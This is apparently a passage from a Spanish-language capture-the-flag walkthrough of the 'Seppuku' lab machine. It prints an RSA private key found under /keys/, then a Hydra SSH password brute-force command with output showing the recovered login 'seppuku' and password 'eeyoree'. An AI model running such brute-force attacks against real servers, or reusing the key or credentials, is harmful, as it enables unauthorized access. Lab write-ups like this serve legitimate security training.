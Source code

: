 Si nos vamos a `/keys/` nos encontraremos un id\_rsa...

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAypJlwjKXf0F4YvL2gfwvoUuvB7fuGMMfCe41gLCsTsleOUy2
CJX+oNwVVKPpl6TYI4nXPGbiwfGzoxm0FZa7D9yr83OgwuvMMp83OkVcwL9v+x7a
tK8AAVZ0NjvOPGkvEhB2rPS2mKg1xRKXCM7pA0KSOoDbk9coOpadjg4G0f1YPWrw
p6iLfIErfY2+5hS7QyTQpuRmHuR4eKLF1NFRp8gYuNCVtr0n2Uu6hWuI7RWBGQZJ
Joj8LKjfRRYmKGpyqiGTdRy+8yCyAuT55shuCzXuc+/3HE2jACOD8+pSPKjwxzm4
fuaSfBTUkHfyhiSKIkop2YfIDLKRPM8dGn5zuQIDAQABAoIBADM+s7Vb3Q1ZP54w
foHFjTsNjVqzge0Lt1doxmomx4Aq2sY+DLLBVyfUZSUDTj2JexAKd8OU93o+rcXt
46uudOX/WhR9RMbqpb6MnokEMQGlrCtn08Xvm127RCzQFk0cAsdcGNmKEoMt0mRn
XoPg6/tiJOHd5S5SOKARqAveqoUGUYI3xgsiRpj8CCRIDUgHi9J0++qUeauVw3m3
lvyTnUTw0uf5+sRkI173CUY+ygJapGM7Lg59xzcjEq5H4so0IztQo3o/pOIfeS6W
bqIpY7D63YBGLgpi9JcN/d2bSfafkfhcrAcjPjRXwEFPmYjMbsTBOKcTtCSDVo6/
ho6fTl0CgYEA9F1uIkqxFKIMt2/uK4/1gPOXy/1cjxcsFoah0Ql7d0gj26H6AgXk
nPncIoO1kojPnB+TUy4qz+Bd7teDbkHSaWNJYIVJZQbvskstwgL4+XamiWrJA/Jp
h7y0I0zRxCMBj5yhBNrp6P+f8vtVMpjbKV17jfe6aakfyuayPugHHh8CgYEA1DeM
4lR/+/fUbxtws+aTx8h9TwisYq38D39KNsWkynnb+9pnLCbVbVETtv4sfD/aQfah
R7CxOG+mD4Vryjpk/wwzZeUDzcQpiTx4RsgP6MkFU8knORKfBdimaUpiasWlNWgy
caXR/iA6EmA4jht8vf/+UOUV8GXV9VqDIWUhgycCgYEAvJaGcqyWMUhG7CLT+oal
f5l/Iw0rq7rEabYJmBvrT0k7czt0iK8nmgYy3+gp7ybqoqCzwFQ28itEExn78tGV
o4Pek0EKPY+22TCv5bUJlOz+5bql3AfvbbQyibO1h9tETyMgGXEhaJIvTQSu4deZ
/DiLLCttkDHXuW2FTosfQx0CgYEAkhGOSjapRRBHSxaTE3Cw5UFNZvnsVZu1tCEE
PwD5NVh9HzQr8YrlOnIk5L68deUpYF/WkNbAlLzcizBlifN5kseeFRN188qCYHCb
xPRtZuf+X7ZD5he4FzkRCcXmSeGynjkTB4CAMq+R6RYLt1yaFtk9/gZAfJBLna5o
NbM7Rt8CgYA5oPRfIpKZ5G9LJEAsBUONgBsrpXs+816ZEvBGsqPs/NPhhZMFetKm
RXxYAiEUudMsahP4Woeuxy8kWfM2J2ltwC/HRFuKnKfsHBhsn/FilspYfrafr985
tFnL/K9Z8le1saEGjwCu6zKto7CaFjj2D4Y9ji0sHGBO+tVbtmU/Jg==
-----END RSA PRIVATE KEY-----
```

Pero de todo esto nos centraremos en el nombre de usuario que sabemos que es el hostname `seppuku` y con el diccionario de palabras que encontramos tiramos un hydra...

```shell
hydra -l seppuku -P <WORDLIST> ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 03:48:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 92 login tries (l:1/p:92), ~2 tries per task
[DATA] attacking ssh://192.168.195.137:22/
[22][ssh] host: 192.168.195.137   login: seppuku   password: eeyoree
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 03:48:52
```
